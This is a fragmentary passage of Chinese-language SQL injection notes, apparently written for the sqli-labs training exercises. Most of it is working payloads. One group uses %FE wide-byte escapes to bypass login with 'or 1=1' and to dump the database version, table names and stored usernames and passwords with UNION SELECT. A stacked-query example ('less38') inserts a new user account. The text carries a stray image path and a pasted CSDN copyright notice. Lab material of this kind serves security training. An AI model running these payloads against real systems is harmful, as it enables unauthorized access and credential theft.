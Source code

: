 ```

    uname=2%FE' or 1=1  #&passwd=1%FE' or 1=1 #&submit=Submit
    
    其它：
    
    uname=1%FE' union select version(),database() #&passwd=1%FE' or 1=1 #&submit=Submit
    
    uname=1%FE' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #&passwd=1%FE' or 1=1 #&submit=Submit
    
    uname=1%FE' union select group_concat(username),group_concat(password) from security.users where 1 #&passwd=1%FE' or 1=1 #&submit=Submit


————————————————
版权声明：本文为CSDN博主「战狼767」的原创文章，遵循CC 4.0 BY-SA版权协议，转载请附上原文出处链接及本声明。
原文链接：https://blog.csdn.net/qq_21500173/article/details/51965212
```





# less38

PHPstudy

MySQL里`;`后面加上新的数据，那么它会新起一行，添加一条内容是新的数据。

用于已知其网站注册入口、SQL的结构等。

```
id=1';insert into users(username,password)values('zj123','xxxx') --+
```



